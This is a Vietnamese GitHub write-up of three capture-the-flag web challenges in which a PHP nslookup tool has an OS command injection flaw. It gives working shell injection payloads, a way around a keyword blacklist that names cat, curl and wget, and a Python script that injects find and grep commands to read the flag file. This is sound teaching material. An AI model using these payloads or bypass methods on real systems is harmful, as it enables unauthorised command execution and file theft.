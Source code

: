 <!-- markdownlint-disable MD033 MD041 -->
<p align="center">
<a href="https://battle.cookiearena.org/"><img alt="https://battle.cookiearena.org/" src="images/logo.png" width="100" height="100"></a>
</p>
<!-- markdownlint-enable MD033 -->

# Cookie Arena

Chào mọi người!

Ở repo này, mình sẽ viết lại những cách mà mình đã thực hiện để có thể giải được một số thử thách thuộc mảng Web trên trang [Cookie Arena](https://battle.cookiearena.org/).

Bắt đầu nào! 🔥

## NSLookup (Level 1)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> - Người dùng nhập tên miền vào biểu mẫu (form).
> - Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> - Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> - Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> - Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Mô tả của thử thách cũng đã rất rõ ràng, đây là một trang web được viết bằng PHP dính lỗ hổng OS Command Injection.

![image](images/nslookup-level-1/image-1.png)

Chúng ta có thể thấy, dữ liệu đầu vào qua tham số `domain` lấy từ URL không được xử lý mà được truyền thằng vào hàm `shell_exec()`, cho phép chúng ta thực thi lệnh hệ thống tuỳ ý.

Do `domain` truyền vào phía sau lệnh `nslookup` nên chúng ta sẽ kết hợp sử dụng dấu `;` để thực thi một loạt các lệnh.

Nhập vào payload `; ls /`, chúng ta xác định được có file `flag.txt` nằm tại `/`.

![image](images/nslookup-level-1/image-2.png)

Để đọc flag, chúng ta dùng payload `; cat /flag.txt`.

![image](images/nslookup-level-1/image-3.png)

## NSLookup (Level 2)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> Người dùng nhập tên miền vào biểu mẫu (form).
> Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Đến với level 2 này, lập trình viên đã đưa giá trị của tham số `domain` vào trong cặp dấu nháy `''`.

![image](images/nslookup-level-2/image-1.png)

Như vậy, chúng ta cần phải escape khỏi cặp dấu đó mới có thể thực thi được lệnh tuỳ ý.

Chúng ta có thể sử dụng payload ngắn gọn như `';cat /f*;'` để lấy flag. Ở payload này sử dụng wildcard `*` để khớp với tất cả các ký tự, nó rất hữu ích trong những trường hợp mà chúng ta không biết tên file.

![image](images/nslookup-level-2/image-2.png)

## NSLookup (Level 3)

> Tất cả các lệnh đọc file 'cat', 'head', 'tail', 'less', 'strings', 'nl', "ls", "*", "curl", "wget" đều bị chặn và không tồn tại trên hệ thống
>
> - Flag: /flagXXXX.txt
> - Flag Format: CHH{XXX}

Ở level 3 này, tác giả đã thêm vào blacklist để làm khó chúng ta hơn. Tuy nhiên, blacklist chứa rất ít từ và ký tự nên cũng không quá khó để chúng ta bypass thành công.

![image](images/nslookup-level-3/image-1.png)

Ngoài dấu `*` đại diện cho nhiều ký tự thì chúng ta còn có dấu `?` để đại diện cho 1 ký tự. Và chúng ta sẽ kết hợp dấu `?` này với một lệnh siêu hữu ích để đọc được file, đó chính là `grep`.

Vậy, chúng ta có thể truyền payload sau vào tham số `domain` để lấy về flag.

```bash
'; grep "[a-zA-Z]" /flag?????.txt;'
```

![image](images/nslookup-level-3/image-2.png)

Ngoài ra còn có một số cách khác nữa, ví dụ như sử dụng lệnh `find` để tìm được tên file flag, sau đó mới đọc flag.

Mình có viết đoạn script Python sau.

```python
import requests
import re

URL = "http://103.97.125.56:32428/index.php"

proxy = {
    "http": "http://127.0.0.1:8080"
}

search_filename_payload = "'; find / -type f -maxdepth 1 2>/dev/null;'"
read_flag_payload = "'; grep \"[a-zA-Z]\" %s;'"


def search_filename():
    data = {
        "domain": search_filename_payload
    }

    r = requests.post(url=URL, data=data)
    filename = re.search(r"/flag\w{5}.txt", r.text).group(0)

    return filename


def read_flag(filename):
    data = {
        "domain": read_flag_payload % filename
    }

    r = requests.post(url=URL, data=data)
    flag = re.search(r"CHH{\w+}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    filename = search_filename()
    read_flag(filename)

```
